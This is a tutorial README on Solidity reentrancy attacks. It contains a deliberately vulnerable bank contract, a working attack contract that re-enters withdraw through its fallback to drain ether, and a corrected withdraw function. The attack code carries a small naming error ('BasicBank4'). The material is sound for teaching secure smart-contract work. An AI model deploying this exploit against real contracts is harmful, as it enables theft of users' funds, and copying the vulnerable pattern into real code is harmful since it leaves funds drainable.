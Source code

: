 # Reentracy Attack
## 🗺️ Overview 
The Reentrancy attack is one of the most destructive attacks in the Solidity smart contract. A reentrancy attack occurs when a function makes an external call to another untrusted contract. Then the untrusted contract makes a recursive call back to the original function in an attempt to drain funds.



When the contract fails to update its state before sending funds, the attacker can continuously call the withdraw function to drain the contract’s funds. A famous real-world Reentrancy attack is the DAO attack which caused a loss of 60 million US dollars.

## How Does Reentracy Attack Work?
<img src='https://github.com/wasny0ps/Reentracy/blob/main/img/reentracy.png'>

## 🎬 Reentrancy Attack Scenario
1> The vulnerable smart contract has 10 eth.

2> An attacker stores 1 eth using the deposit function.

3> An attacker calls the withdraw function and points to a malicious contract as a recipient.

4> Now withdraw function will verify if it can be executed:

Does the attacker have 1 eth on their balance? Yes – because of their deposit.

Transfer 1 eth to a malicious contract. (Note: attacker balance has NOT been updated yet)

Fallback function on received eth calls withdraw function again.

4>Now withdraw function will verify if it can be executed:

Does the attacker have 1 eth on their balance? Yes – because the balance has not been updated.

Transfer 1 eth to a malicious contract and again until the attacker will drain all the funds stored on the contract.
## 📄 Example Of Vulnereable Contract
This contract is designed to provide basic web3 banking services and includes vulnerabilities that are frequently encountered in other smart contracts.
```
//SPDX-License-Identifier: MIT
pragma solidity 0.7.0;

contract BasicBank {

    mapping (address => uint) private userFunds;
    address private commissionCollector;
    uint private collectedComission = 0;

    constructor() {
        commissionCollector = msg.sender;
    }
    
    modifier onlyCommissionCollector {
        require(msg.sender == commissionCollector);
        _;
    }

    function deposit() public payable {
        require(msg.value >= 1 ether);
        userFunds[msg.sender] += msg.value;
    }

    function withdraw(uint _amount) external payable {
        require(getBalance(msg.sender) >= _amount);
        msg.sender.call{value: _amount}("");
        userFunds[msg.sender] -= _amount;
        userFunds[commissionCollector] += _amount/100;
    }   

    function getBalance(address _user) public view returns(uint) {
        return userFunds[_user];
    }

    function getCommissionCollector() public view returns(address) {
        return commissionCollector;
    }

    function transfer(address _userToSend, uint _amount) external{
        userFunds[_userToSend] += _amount;
        userFunds[msg.sender] -= _amount;
    }

    function setCommissionCollector(address _newCommissionCollector) external onlyCommissionCollector{
        commissionCollector = _newCommissionCollector;
    }

    function collectCommission() external {
        userFunds[msg.sender] += collectedComission;
        collectedComission = 0;
    }
}
```
## 👨‍💻 Analyzing
## Attacking
```
//SPDX-License-Identifier: MIT
pragma solidity 0.7.0;

import './BasicBank.sol';

contract Attack{
    BasicBank public target;
    constructor(address payable _target){
        target = BasicBank4(_target);
    }
    function attack() external payable{
        require(msg.value >= 1e18, "At least 1 ether");
        target.deposit{value: 1e18}();
        target.withdraw(1e18);
    }
    fallback()external payable{
        if(address(target).balance >= 1e18){
            target.withdraw(1e18);
        }
    }
}
```
## How To Prevent Reentracy Attack?

As I mentioned in the analysis part, the order of transactions in the ```withdraw()``` function is constructed with a wrong point of view. Therefore, if the transaction order is made like this way, the reentracy vulnerability will die out.

```
function withdraw(uint _amount) external payable {
        require(getBalance(msg.sender) >= _amount);
        userFunds[msg.sender] -= _amount;
        msg.sender.call{value: _amount}("");
        userFunds[commissionCollector] += _amount/100;
    }
```

**_by wasny0ps_**
